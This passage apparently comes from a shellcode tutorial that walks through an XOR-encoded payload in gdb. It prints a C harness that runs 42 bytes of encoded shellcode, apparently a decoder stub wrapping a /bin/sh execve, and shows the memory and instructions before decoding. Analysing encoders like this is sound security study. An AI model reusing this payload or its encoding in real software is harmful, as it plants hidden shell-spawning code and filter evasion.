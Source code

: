 and we could figure this out, just go ahead and

```
(gdb) shell cat shellcode.c 
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x09\x5e\x80\x36\xaa\x74\x08\x46\xeb\xf8\xe8\xf2\xff\xff\xff\x9b\x6a\xfa\xc2\x85\x85\xd9\xc2\xc2\x85\xc8\xc3\xc4\x23\x49\xfa\x23\x48\xf9\x23\x4b\x1a\xa1\x67\x2a\xaa";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

and then I am going to show byte by byte 42 individual bytes, then 
we see the address just below the `call` instruction (0x0804a050),
let me take this address.

```
(gdb) x/42xb 0x0804a050
0x804a050 <code+16>:	0x9b	0x6a	0xfa	0xc2	0x85	0x85	0xd9	0xc2
0x804a058 <code+24>:	0xc2	0x85	0xc8	0xc3	0xc4	0x23	0x49	0xfa
0x804a060 <code+32>:	0x23	0x48	0xf9	0x23	0x4b	0x1a	0xa1	0x67
0x804a068 <code+40>:	0x2a	0xaa	0x00	0x00	0x00	0x00	0x00	0x00
0x804a070 <dtor_idx.6161>:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804a078:	0x00	0x00
```

and if you notice this is where this is a part of our shellcode.

So couple of things which we can do. The other thing is also to see
how the instructions changes after the decoding happens.

```
(gdb) x/10i 0x804a050
   0x804a050 <code+16>:	fwait
   0x804a051 <code+17>:	push   0xfffffffa
   0x804a053 <code+19>:	ret    0x8585
   0x804a056 <code+22>:	fld    st(2)
   0x804a058 <code+24>:	ret    0xc885
   0x804a05b <code+27>:	ret    
   0x804a05c <code+28>:	les    esp,FWORD PTR [ebx]
   0x804a05e <code+30>:	dec    ecx
   0x804a05f <code+31>:	cli    
   0x804a060 <code+32>:	and    ecx,DWORD PTR [eax-0x7]
```
